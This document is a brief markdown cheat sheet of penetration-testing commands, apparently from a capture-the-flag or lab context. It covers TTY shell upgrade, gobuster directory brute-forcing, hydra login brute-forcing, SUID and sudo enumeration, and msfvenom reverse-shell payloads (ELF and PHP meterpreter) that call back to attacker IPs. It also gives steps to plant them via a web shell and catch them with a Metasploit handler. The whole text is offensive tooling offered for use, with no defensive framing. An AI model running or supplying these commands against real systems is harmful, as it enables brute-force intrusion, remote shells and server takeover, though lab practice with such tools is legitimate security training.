 `Upgrade terminal`
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
___
`Gobuster`
```
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://ip -t 100 -q -o gobust.txt
```
___
`Hydra` `To Find Username OR Password for login pages` 
```
hydra -L .dic -p test IP http-post-form "log=^USER^&pwd=^PWD^:Invalid username Or name of Error thrown" -t 30
```

___
`To find Root Processes`
```
Sudo -l
```
OR
```
find / -perm +6000 2>/dev/null | grep '/bin/'
```
___
`MsfVenom`
```
In Attackers pc: msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.49 LPORT=4040 -f elf > r.elf
Upload the r.elf to webshell and excuite it to get the reverse shell

OR

1. Generate backdoor

msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f raw -o payload.php

2. Create our payload handler

msfconsole
$ use exploit/multi/handler
$ set payload php/meterpreter/reverse_tcp
$ set LHOST 192.168.0.32
$ set LPORT 4444
$ run

3. Paste the payload.php in web shell to get the reverse shell
```



